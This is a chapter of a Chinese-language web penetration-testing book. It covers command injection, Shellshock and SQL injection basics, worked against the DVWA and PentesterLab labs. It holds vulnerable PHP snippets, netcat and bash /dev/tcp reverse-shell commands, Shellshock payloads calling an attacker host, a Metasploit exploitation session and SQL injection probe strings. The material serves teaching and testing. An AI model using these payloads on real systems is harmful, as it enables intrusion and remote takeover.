## 5
### 检测和利用基于注入的缺陷

根据 OWASP Top 10 2013 列表
(https://www.owasp.org/index.php/Top_10_2013-Top_10)，Web 应用程序中最关键的缺陷是注入缺陷，并且它在 2017 列表
(https://www.owasp.org/index.php/Top_10-2017_Top_10) 发布候选版中保持了其地位。
交互式 Web 应用程序接收来自用户的输入，对其进行处理并将输出返回给客户端。当应用程序容易受到注入缺陷的影响时，它会接受来自用户的输入而未进行适当的验证甚至任何验证，仍对其进行处理。这导致应用程序无意执行的操作。恶意输入欺骗了应用程序，迫使底层组件执行应用程序未被编程执行的任务。换句话说，注入缺陷允许攻击者随意控制应用程序的组件。

在本章中，我们将讨论当今 Web 应用程序中的主要注入缺陷，包括检测和利用它们的工具，以及如何避免易受攻击或修复现有缺陷。这些缺陷包括以下内容：

- 命令注入缺陷
- SQL 注入缺陷
- 基于 XML 的注入
- NoSQL 注入


注入漏洞被用来获取对应用程序发送数据的底层组件的访问权限，以执行某些任务。下面的表格显示了 Web 应用程序最常用的组件，当用户输入未被应用程序清理时，这些组件经常成为注入攻击的目标：

| 组件 | 注入漏洞 |
|---|---|
| 操作系统 | 命令注入 |
| 数据库 | SQL/NoSQL 注入 |
| Web 浏览器 / 客户端 | 跨站脚本 |
| LDAP 目录 | LDAP 注入 |
| XML | XPATH / XML 外部实体注入 |

## 命令注入

Web 应用程序本质上是动态的，可能使用脚本在 Web 服务器的操作系统内调用某些功能来处理从用户接收到的输入。攻击者可能会尝试通过绕过应用程序实现输入验证过滤器，使此输入在命令行中被处理。命令注入通常在同一 Web 服务器上调用命令，但根据应用程序的架构，命令也可能在不同的服务器上执行。

让我们来看一个容易受到命令注入漏洞影响的简单代码片段，取自 DVWA 的命令注入练习。这是一个非常简单的脚本，它接收一个 IP 地址并向该地址发送 ping（ICMP 数据包）：

```
<?php
    $target = $_REQUEST[ 'ip' ];
    $cmd = shell_exec( 'ping -c 3 ' . $target );
    $html .= '<pre>'.$cmd.'</pre>';
    echo $html;
?>
```

正如你所见，在接受用户提供的 ip 参数之前没有任何输入验证，这使得此代码容易受到命令注入攻击。要登录 DVWA，默认凭据为 admin/admin。

恶意用户可能会使用以下请求来管道输入额外的命令，应用程序会在不引发异常的情况下接受这些命令：

```
http://server/page.php?ip=127.0.0.1;uname -a
```

应用程序在未经验证的情况下从客户端获取用户输入的值，并将其与 ping -c 3 命令拼接以构建在 Web 服务器上运行的最终命令。服务器的响应显示在下面的屏幕截图中。底层操作系统的版本连同 ping 给定地址的结果一起显示，因为应用程序未能验证用户输入：



注入的额外命令将使用 Web 服务器的权限运行。如今大多数 Web 服务器都以受限权限运行，但即使权限有限，攻击者也可以利用并窃取重要信息。

命令注入可用于使服务器下载并执行恶意文件，通过注入 wget 命令，或获得对服务器的远程 shell，如以下示例所示。

首先，在 Kali Linux 中设置一个监听器。Netcat 有一种非常简单的方法来做到这一点：

```
nc -lvp 12345
```

Kali Linux 现在设置为在端口 12345 上监听连接。接下来，将以下命令注入到易受攻击的服务器中：

```
nc.traditional -e /bin/bash 10.7.7.4 12345
```

在某些现代 Linux 系统中，原版 Netcat 已被替换为不包含可能带来安全风险的一些选项的版本，例如 -e，它允许在连接时执行命令。这些系统通常在名为 nc.traditional 的命令中包含 Netcat 的传统版本。在尝试使用 Netcat 访问远程系统时，请尝试这两种选项。

请注意，10.7.7.4 是示例中 Kali 机器的 IP 地址，12345 是监听连接的 TCP 端口。发送请求后，你应该在 Kali Linux 中收到连接并能够在非交互式 shell 中发出命令：



非交互式 shell 允许你执行命令并查看结果，但不能与命令交互也不能查看错误输出，例如在使用文本编辑器时。

## 识别用于注入数据的参数

当你测试 Web 应用程序是否存在命令注入漏洞，并且已确认应用程序正在与底层操作系统的命令行交互时，下一步是操纵和探测应用程序中的不同参数并查看其响应。应测试以下参数是否存在命令注入漏洞，因为应用程序可能使用其中一个参数在 Web 服务器上构建命令：

- **GET**：使用此方法，输入参数发送在 URL 中。在前面显示的示例中，客户端的输入使用 GET 方法传递给服务器，并且容易受到命令注入漏洞的影响。任何使用 GET 方法请求发送的用户控制参数都应进行测试。
- **POST**：在此方法中，输入参数发送在 HTTP 正文。类似于使用 GET 方法传递的输入；从终端用户获取的数据也可以使用 POST 方法在 HTTP 请求的正文中传递。然后 Web 应用程序可能会将此数据用于在服务器端构建命令查询。
- **HTTP 头**：应用程序经常使用头字段来识别终端用户，并根据头中的值向用户显示自定义信息。这些参数也可以被应用程序用于构建进一步的查询。应检查命令注入的以下重要头字段：
  - Cookies
  - X-Forwarded-For
  - User-Agent
  - Referrer

## 基于错误和盲命令注入

当你通过输入参数搭载命令并且命令的输出显示在 Web 浏览器中时，很容易识别应用程序是否容易受到命令注入漏洞的影响。输出可能以错误的形式出现，也可能是你尝试运行的命令的实际结果。作为渗透测试人员，你会根据应用程序使用的 shell 修改并添加额外命令，并从应用程序中获取信息。当输出显示在 Web 浏览器中时，它被称为**基于错误**或**非盲命令注入**。

在另一种形式的命令注入中，即**盲命令注入**，你注入的命令的结果不会显示给用户，也不会返回错误消息。攻击者将不得不依靠其他方式来识别命令是否确实在服务器上执行。当命令的输出显示给用户时，你可以使用任何 bash shell 或 Windows 命令，例如 `ls`、`dir`、`ps` 或 `tasklist`，具体取决于底层操作系统。然而，在测试盲注入时，你需要仔细选择命令。作为道德黑客，当应用程序不显示结果时，识别注入漏洞存在最可靠和安全的方式是使用 `ping` 命令。

攻击者注入 `ping` 命令以向其控制下的机器发送网络数据包，并使用数据包捕获在该机器上查看结果。这可能在以下几个方面证明有用：

- 由于 `ping` 命令在 Linux 和 Windows 中相似，仅有少数细微变化，因此如果应用程序容易受到注入漏洞的影响，该命令肯定会运行。
- 通过分析 `ping` 输出中的响应，攻击者还可以使用 TTL 值识别底层操作系统。
- `ping` 输出中的响应也可能让攻击者对防火墙及其规则有所了解，因为目标环境允许 ICMP 数据包通过其防火墙。这在后续的利用阶段可能很有用，因为 Web 服务器可以路由到攻击者。
- `ping` 实用程序通常不受限制；即使应用程序在非特权账户下运行，你获得命令执行的机会也得到保证。
- 输入缓冲区通常大小有限，只能接受有限数量的字符，例如用户名输入字段。`ping` 命令连同 IP 地址和一些额外参数，可以轻松注入到这些字段中。

## 命令分隔符的元字符

在前面显示的示例中，分号被用作元字符，它分隔实际输入和你尝试注入的命令。除了分号之外，还有几个其他元字符可用于注入命令。


开发者可能会设置过滤器来阻止分号元字符。这将阻止你的注入数据，因此你需要尝试其他元字符，如下表所示：

| Symbol | Usage |
|---|---|
| ; | 分号是最常用的用于测试注入漏洞的元字符。shell 会按分号分隔依次运行所有命令。 |
| && | 双与号仅在左侧命令执行成功时才运行元字符右侧的命令。一个例子是注入密码字段以及正确的凭据。可以在用户通过系统身份验证后运行的命令被注入。 |
| || | 双竖线元字符与双与号正好相反。它仅在左侧命令失败时才运行右侧的命令。以下是此命令的一个示例：`cd invalidDir || ping -c 2 attacker.com` |
| ( ) | 使用分组元字符，你可以将多个命令的输出合并并存储到文件中。以下是此命令的一个示例：`(ps; netstat) > running.txt` |
| ` | 单引号元字符用于强制 shell 对反引号之间的命令进行解释并运行。以下是此命令的一个示例：`Variable= "OS version `uname -a`" && echo $variable` |
| >> | 该字符会将左侧命令的输出追加到右侧字符命名的文件中。以下是此命令的一个示例：`ls -la >> listing.txt` |
| | | 单竖线会将左侧命令的输出用作右侧指定命令的输入。以下是此命令的一个示例：`netstat -an | grep :22` |

作为攻击者，你通常需要使用上述元字符的组合来绕过开发者设置的过滤器，以便使你的命令被注入。

## 利用 shellshock

**shellshock** 漏洞于 2014 年 9 月被发现，并被分配了初始 CVE 标识符 2014-6271。Shellshock 是一种 **任意代码执行 (ACE)** 漏洞，被认为是有史以来发现的最严重漏洞之一。

该漏洞发现于 **Bourne Again Shell (bash)** 处理环境变量的方式中，它影响了使用 bash 作为操作系统接口的各种应用程序和操作系统。受影响的代码包括大多数基于 Unix 的系统（包括 Mac OS X）中的 DHCP 客户端、命令行终端以及 Web 应用程序中的 CGI 脚本。该漏洞在环境变量中设置空函数时被触发。空函数如下所示：

```
() { :; };
```

当 bash shell 收到上述字符集连同变量时，它不会拒绝这些字符串，而是连同其后的变量一起接受并在服务器上作为命令执行。

正如你在之前利用命令注入漏洞时所看到的，bash shell 在 Web 应用程序中被广泛使用，你经常会看到后端、中间件和监控 Web 应用程序将变量传递给 bash shell 以执行某些任务。下面使用来自 PentesterLab 的易受攻击的 live CD（https://www.pentesterlab.com/exercises/cve-2014-6271）展示了 shellshock 漏洞的一个示例。

## 获取反向 shell

如果你使用 live CD 镜像启动虚拟机，你将拥有一个最小系统，其中包含一个 Web 服务器，该服务器加载一个非常简单的页面，显示系统信息：



如果你查看代理中的请求，你会注意到对 /cgi-bin/status 的请求，其响应包括系统的正常运行时间和看起来像是 uname -a 命令的结果：



要获取此类信息，status 脚本需要与操作系统通信。有可能它正在使用 bash，因为 bash 是许多基于 Unix 系统的默认 shell，并且 User-Agent 头在 CGI 脚本处理时会变成环境变量。为了测试是否真的存在命令注入，你需要测试不同版本的注入。假设你希望目标服务器 ping 回你以验证它是否正在执行命令。以下是使用通用目标地址的一些示例。请注意空格和分隔符的使用：

```
 () { :;}; ping -c 1 192.168.1.1
 () { :;}; /bin/ping -c 1 192.168.1.1
 () { :;}; bash -c "ping -c 1 192.168.1.1"
 () { :;}; /bin/bash -c "ping -c 1 attacker.com"
 () { :;}; /bin/sh -c "ping -c 1 192.168.1.1"
```

作为测试的一部分，你将请求发送到 Burp Suite 的 Repeater 并仅在 User-Agent 头中提交 () { :;}; 空函数，并得到与未注入时相同的有效响应：



如果你尝试注入诸如 uname、id 或单个 ping 之类的命令，你会收到错误。这意味着该头确实正在被处理，你只需要找到正确发送命令的方法：



经过一些反复试验后，你找到了正确的命令。ping -c 1 10.7.7.4 命令将在服务器上执行，并且 ping 会通过诸如 Wireshark 之类的网络嗅探器在攻击者机器上被捕获：



现在你找到了正确的注入命令，你可以尝试获得对服务器的直接 shell 访问。为此，首先使用以下方式设置你的监听器：

```
nc -lvp 12345
```

然后注入命令。这次，你注入的是更高级的命令，如果成功将产生一个完全交互式的 shell：

```
() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"
```



bash shell 将变量解释为命令并执行它，而不是将其接受为字符序列。这看起来非常类似于前面讨论的命令注入漏洞。然而，这里的主要区别是 bash shell 本身容易受到代码注入的影响，而不是网站。由于 bash shell 被许多应用程序使用，例如 DHCP、SSH、SIP 和 SMTP，攻击面因此大大增加。通过 HTTP 请求利用该漏洞仍然是最常见的方式，因为 bash shell 通常与 CGI 脚本一起使用。


要识别 Web 服务器中的 CGI 脚本，除了使用代理分析请求和响应外，还可以使用 Nikto 和 DIRB。

## 使用 Metasploit 进行利用

从终端启动 Metasploit 控制台（msfconsole）。你需要在 exploit/multi/http 下选择 apache_mod_cgi_bash_env_exec 漏洞利用模块：

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

然后你需要使用 set 命令定义远程主机和目标 URI 值。你还需要选择 reverse_tcp 有效载荷，该有效载荷将使 Web 服务器连接到攻击者机器。这可以在 linux | x86 | meterpreter 中找到。

确保本地主机（SRVHOST）和本地端口（SRVPORT）值正确。你可以使用 set 命令设置这些和其他值：

```
set SRVHOST 0.0.0.0
set SRVPORT 8080
```

使用 0.0.0.0 主机，服务器将通过攻击者启用的所有网络接口进行监听。此外，验证攻击者机器上所选端口上没有正在运行的服务：



准备就绪后，输入 `exploit`，如果服务器容易受到 shellshock 攻击，你将被 `meterpreter` 提示符迎接。*shell 是黑客最宝贵的财产。* `meterpreter` 会话在后利用阶段是一个非常有用的工具。在此阶段，黑客真正理解了他们所入侵的机器的价值。Meterpreter 拥有大量内置命令。

Meterpreter 是 Metasploit 中包含的高级远程 shell。当在 Windows 系统中执行时，它包含用于提升权限、转储密码和密码哈希、冒充用户、嗅探网络流量、记录击键以及在目标机器上执行许多其他漏洞利用的模块。

以下屏幕截图显示了 `sysinfo` 命令的输出以及 Meterpreter 中的远程系统 shell：

```
msf exploit(apache_mod_cgi_bash_env_exec) > exploit
[*] Started reverse TCP handler on 10.7.7.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (826872 bytes) to 10.7.7.5
[*] Meterpreter session 2 opened (10.7.7.4:4444 -> 10.7.7.5:35130) at 20
meterpreter > sysinfo
Computer     : 10.7.7.5
OS           : (Linux 3.14.1-pentesterlab)
Architecture : i686
Meterpreter  : x86/linux
meterpreter > shell
Process 1355 created.
Channel 1 created.
whoami
pentesterlab
uname -a
Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014
```


## SQL 注入

与后端数据库交互以检索和写入数据是 Web 应用执行的最关键任务之一。关系型数据库将数据存储在一系列表中，是实现这一目标最常见的方式，而对于查询信息，结构化查询语言（SQL）是事实上的标准。

为了允许用户选择要查看的信息或根据其个人资料过滤可查看的内容，会使用从 Cookie、输入表单和 URL 变量中获取的输入来构建 SQL 语句，然后将这些语句传回数据库进行处理。由于用户输入参与了 SQL 语句的构建，应用程序的开发人员需要在将其传递给后端数据库之前仔细验证它。如果未正确进行此验证，恶意用户可能能够发送 SQL 查询和命令，这些查询和命令将被数据库引擎执行，而不是作为预期值进行处理。

利用用户输入的信任，迫使服务器执行 SQL 查询而不是将值用作过滤参数的攻击类型称为 SQL 注入。

## SQL 入门

为了理解 SQL 注入漏洞，首先你需要具备一些 SQL 知识。首先，让我们看一些基本数据库概念：

- **列或字段：** 列或字段是指所有实体单一特征的一个特定数据片段，例如用户名、地址或密码。
- **行或记录：** 行或记录是一组信息，或一组字段值，与单个实体相关，例如与单个用户或单个客户相关的信息。
- **表：** 表是包含关于同一类型元素的记录的列表，例如用户表、产品表或博客文章表。
- **数据库：** 数据库是与同一系统或系统组相关联的整个表集，通常彼此相关。例如，在线商店数据库可能包含客户、产品、销售、价格、供应商和员工用户的表。

为了获取此类复杂结构的信息，几乎所有现代编程语言和数据库管理系统（DBMS）都支持使用 SQL。SQL 允许开发人员对数据库执行以下操作：

| 语句 | 描述 |
|---|---|
| CREATE | 用于创建数据库和表 |
| SELECT | 允许从数据库检索信息 |
| UPDATE | 允许修改数据库中现有数据 |
| INSERT | 允许在数据库中插入新数据 |
| DELETE | 用于从数据库中删除记录 |
| DROP | 用于永久删除表和数据库 |

还支持其他更复杂的功 能，例如存储过程、完整性检查、备份和文件系统访问，其实现主要取决于所使用的 DBMS。

大多数合法的 SQL 操作任务都是使用上述语句执行的。然而，DELETE 和 DROP 语句如果使用不受控制，可能会导致信息丢失。在渗透测试中，使用 DROP 或 DELETE 尝试 SQL 注入攻击是不鼓励的，或者我应该说，除非客户明确要求，否则是禁止的。


SQL 语句中的 ;（分号）元字符的使用方式与命令注入中类似，用于在同一行组合多个查询。

## SELECT 语句

日常数据库使用中的基本操作是检索信息。这是通过 SELECT 完成的。基本语法如下：

```
SELECT [elements] FROM [table] WHERE [condition]
```

这里，elements 可以是通配符（例如，* 选择所有内容），或你想要检索的列列表。table 是你想要检索信息的表。WHERE 子句是可选的，如果使用，查询将只返回满足条件的行。例如，你可以选择所有价格低于 100 美元（USD）的产品的名称、描述和价格列：

```
SELECT name,description,price FROM products WHERE price<100
```

WHERE 子句也可以使用布尔运算符来创建更复杂的条件：

```
SELECT columnA FROM tableX WHERE columnE='employee' AND columnF=100;
```

前面的 SQL 语句将在满足 WHERE 子句后条件的情况下返回名为 tableX 的表中的 columnA 的值；即 columnE 具有 employee 字符串值且 columnF 具有 100 值。

## 存在漏洞的代码

与前面讨论的命令注入漏洞类似，使用 GET 方法传递的变量也经常用于构建 SQL 语句。例如，/books.php?userinput=1 URL 将显示第一本书的信息。

在以下 PHP 代码中，用户通过 GET 方法提供的输入直接添加到 SQL 语句中。MySQL_query() 函数将把 SQL 查询发送到数据库，而 MySQL_fetch_assoc() 函数将以数组格式从数据库获取数据：

```
<?php
$stockID = $_GET["userinput"];
$SQL= "SELECT * FROM books WHERE ID=" . $stockID;
$result= MySQL_query($SQL);
$row = MySQL_fetch_assoc($result);
?>
```

如果没有适当的输入验证，攻击者可以控制 SQL 语句。如果你将 URL 更改为 /books.php?userinput=10-1，以下查询将被发送到后端数据库：

```
SELECT * FROM books WHERE ID=10-1
```

如果显示了第九本书的信息，你可以得出结论，应用程序容易受到 SQL 注入攻击，因为未经过滤的输入直接发送到执行减法的数据库。

SQL 注入漏洞存在于 Web 应用程序中，而不是数据库服务器上。

## SQL 注入测试方法

在上一节中，你见证了对存在漏洞代码的攻击结果。显而易见的是，如果用户输入在未经先前验证的情况下使用，并直接连接到 SQL 查询中，用户可以注入不同的值或代码，这些值或代码将被数据库中的 SQL 解释器处理和执行。但是，如果你无法访问源代码怎么办？这是在渗透测试中最可能出现的场景；那么，你如何识别此类漏洞呢？

答案是通过尝试简单的注入字符串并分析服务器的响应。让我们使用 Damn Vulnerable Web Application（DVWA）来看一个简单的例子。在 SQL 注入部分，如果你在文本框中输入任何数字，例如 2，你将获得具有此 ID 的用户的信息：



现在尝试提交一个 '（撇号）字符而不是数字，你会看到响应是一个非常详细的错误消息：



仅此响应就告诉我们该参数容易受到注入的影响，因为它表明在提交 ID 时出现语法错误，注入撇号形成的查询如下：

```
SELECT first_name, last_name FROM users WHERE user_id = ''
```

注入的字符关闭了开头的撇号。代码中已有的撇号被留空，这在 DBMS 尝试解释该语句时会产生错误。

检测注入的另一种方法是让解释器执行布尔操作。尝试提交类似 2' and '1'='1 的内容。请注意，你没有发送第一个和最后一个撇号——这些将由 SQL 语句中已有的撇号补全，正如从之前的错误消息中推断的那样。有时，你需要尝试多种带撇号和不带撇号、括号和其他分组字符的组合，以发现语句的实际构造方式：



结果是 ID=2 的相同用户。这是预期结果，因为你附加了一个始终为真的条件；即 and '1'='1'。


接下来，尝试一个恒假的：2' and '1'='2：



从浏览器地址栏可以看到，ID 的提交是通过 GET 请求完成的。对于假条件，响应为空文本而不是用户的详细信息。因此，即使 ID=2 的用户存在，句子的第二个条件也是假的，结果为空。这表明你可以将 SQL 代码注入到查询中并可能从数据库中提取信息。

以下其他有用的测试字符串可能有助于你识别 SQL 注入：

+   - **对数值输入的算术运算**：包括 2+1、-1 和 0+1。
+   - **字母值**：当期望数字时使用这些（a、b、c、...）。
+   - **分号 (;)**：在大多数 SQL 实现中，分号表示句子的结束。你可以注入一个分号后跟另一个 SQL 句子，例如 SLEEP 或 WAITFOR，然后比较响应时间。如果它与你提供的暂停一致，则存在注入漏洞。
+   - **注释**：注释标记（#、//、/*、--）使解释器忽略注释后的所有内容。通过在有效值后注入这些，你应该得到与仅提交该值时不同的响应。
+   - **双引号 (")**：这可以代替撇号或单引号来分隔字符串。

+   - **通配符、字符 %（百分号）和 _（下划线）：** 这些也可以在 WHERE 条件中使用，因此如果代码存在漏洞，你可以注入它们；% 表示所有字符串，_ 表示任意一个字符。例如，如果使用 LIKE 运算符而不是 =，如以下 PHP 字符串连接中，如果我们提交百分号字符（%），你将获得所有用户作为结果：

```
"SELECT first_name, last_name FROM users WHERE first_name LIKE '$name'"
```

或者，如果你提交类似 "Ali__"（两个下划线）的内容，你可能会得到诸如 "Alice"、"Aline"、"Alica"、"Alise" 和 "Alima" 等结果。

+   - **UNION 运算符：** 这用于在 SQL 中合并两个查询的结果。作为条件，两个查询的结果需要具有相同数量的列。因此，如果你有一个返回三个的易受攻击的查询，像上面所示的那样（选择两列），并注入类似 UNION SELECT 1, 2 的内容，你将得到有效结果，或者如果你注入 UNION SELECT 1, 2, 3，你将得到错误。如果结果相同，无论列数多少，或差异不一致，该输入可能不受攻击。

## 使用 SQL 注入提取数据

为了利用 SQL 注入漏洞并从数据库中提取数据，你首先需要了解查询是如何构建的，这样你就知道如何以及在哪里注入你的有效载荷。

